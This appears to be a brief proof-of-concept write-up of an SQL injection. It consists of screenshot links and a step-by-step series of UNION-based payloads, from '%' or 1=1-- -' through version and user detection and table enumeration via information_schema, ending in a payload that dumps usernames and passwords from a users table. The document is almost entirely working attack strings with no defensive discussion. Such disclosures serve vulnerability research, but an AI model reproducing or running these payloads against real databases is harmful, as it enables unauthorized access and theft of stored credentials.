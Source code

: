 
![image](https://user-images.githubusercontent.com/75846902/213949910-e16ed004-c048-43aa-9294-e9b617d35435.png)

payload
`%' or 1=1-- -`

detect to version
![image](https://user-images.githubusercontent.com/75846902/213949995-0a507d40-009c-49a7-b9e4-1756b5d3145e.png)

payload
`%' or 1=1 union select null,version()-- -`

detect to user
![image](https://user-images.githubusercontent.com/75846902/213950162-6dfe6380-7714-4866-bf7f-0d8a558c6e84.png)

payload
`%' or 1=1 union select null,user()-- -`

detect to table
![image](https://user-images.githubusercontent.com/75846902/213950250-3395d0c4-7424-47fa-a05d-035f1558b357.png)

payload
`%' or 1=1 union select null,table_name from information_schema.tables-- -`

detect to table_name 'user'
![image](https://user-images.githubusercontent.com/75846902/213950803-ab3c7679-e56e-4e0c-aa03-60a32836160d.png)

payload
`%' or 1=1 union select null,table_name from information_schema.tables where table_name like 'user%'-- -`


detect to columns from users_table
![image](https://user-images.githubusercontent.com/75846902/213950769-8a858d77-ab33-4ded-9667-55b56e0424db.png)

payload
'%' or 1=1 union select null, concat(user,0x0a,password) from users-- -'

